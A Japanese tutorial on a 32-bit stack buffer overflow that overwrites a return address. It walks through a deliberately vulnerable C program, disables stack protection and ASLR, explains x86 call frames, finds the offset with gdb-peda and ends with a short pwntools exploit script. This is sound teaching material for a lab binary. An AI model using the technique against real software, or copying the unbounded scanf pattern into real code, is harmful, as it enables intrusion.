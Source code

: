 # リターンアドレスの書き換え (バッファオーバーフロー 2)
32bit (x86) / Intel記法です.

## 攻撃対象
バッファオーバーフロー(BOF)の脆弱性を持つプログラム
```c
#include <stdio.h>

void pwn() {
    printf("hacked!\n");
}

void vuln() {
    char overflowme[48];
    scanf("%[^\n]", overflowme);
}

int main() {
    vuln();
    printf("failed!\n");
    return 0;
}
```
コンパイルと下準備
```shell
$ gcc -m32 -fno-stack-protector bof01.c
$ sudo sysctl -w kernel.randomize_va_space=0
```
## 概要
`main()` -> `vuln()` で、`overflowme` を　BOF させて、`vuln()` のリターンアドレスを書き換えて `pwn()` へ飛ぶ.

---
## アセンブリにおける関数の呼び出し
```assembly
main:
    push argn
    ...
    push arg2
    push arg1
    call func // ... (1)
    mov retval, eax

func:
    push ebp // ... (2)
    mov ebp, esp /// ... (2)
    ...
    mov esp, ebp // ...(3)
    pop ebp // ... (3)
    ret // ... (4)
```
### (1) 呼び出す関数を `call` する.  
`call func` は、`eip` (次の命令を格納するレジスタ) を `push` して、`eip` を `func` のアドレスにする.

`call func` を分解したもの
```assembly
push eip
mov eip, func
```

### (2) 呼び出した関数用の stack をつくる.
`main` で使っていた `ebp` をスタックに退避させ、 `ebp` を `esp` と同じ値にする.
```
1. 関数呼び出し前

----------- esp 
main() スタック
----------- ebp
```
```
2. (2) を実行したところ

----------- esp, ebp
ebp のバックアップ
-----------
main() スタック
-----------
```
```
3. func() スタックを確保
sub esp 0x4 等を使う

----------- esp
func() スタック
----------- ebp
ebp のバックアップ
-----------
main() スタック
-----------
```
`func()` 用のスタックが確保できた.

### (3) `leave`
基本的に (2) の操作の逆を行う.  

*(3) の部分は　`leave` と省略されることもある.
```
1. mov esp, ebp

-----------
func() スタック
----------- esp, ebp
ebp のバックアップ
-----------
main() スタック
-----------
```
```
2. pop ebp
esp の位置から、pop する. (= ebp に "ebp のバックアップ"を格納する.)

-----------
func() スタック
----------- esp
main() スタック
----------- ebp
```

### (4) `ret`
(1) で `push` した `eip` (次の命令を指すレジスタ) の値を `eip` に `pop` する.
```assebmly
pop eip
```

この結果、次に実行される命令は、return 先の関数になる.

---

## 具体的な方法
`ret` 命令で `eip` に `pop` する値 (A) を書き換えたい.
```
----------- esp
vuln() スタック
----------- ebp
ebp のバックアップ
-----------
push された eip の値  <- (A)
-----------
main() スタック
-----------
```
`vuln()` には BOF の脆弱性がある. これを使って、(A) の値を書き換える.

### オフセットの特定
"push された eip の値" を書き換えるどの程度の長さのオフセットが必要なのかを特定する.

まず、

```bash
gdb-peda $ pattc [文字数 ex. 100]
```
を使う.  
これによって、任意の文字数の**便利**な文字列が生成される. これをコピーする.

次にこの文字列を `scanf` に読ませる
```bash
gdb-peda $ run
[便利な文字列]
```

すると、`ret` 命令の時点で、`pop eip` するスタックが不正な値となるため、実行が停止する.  
このときの `eip` の値を検索する.
```bash
gdb-peda $ patto [eip の値]
```
これで出た値が、"`push` された `eip`の値 (A)" を書き換えるために必要なオフセット.

つまり
```
----------- esp
vuln() スタック
----------- ebp
ebp のバックアップ
-----------
push された eip の値  <- (A)
-----------
main() スタック
-----------
```
`vuln() スタック` の `overflowme` から、 (A) までの距離.

この値は後で使う.

### 呼び出す関数のアドレス取得
書き換えるアドレスを取得.
```
gdb-peda $ p pwn
```

### 攻撃コードの作成
```python
from pwn import *

offset = 60 # オフセットの値
pwn_addr = "\xed\x61\x55\x56" # pwn の開始アドレス.
p = process("./a.out")
p.sendline("A"*offset+pwn_addr)
print(p.recvline())
```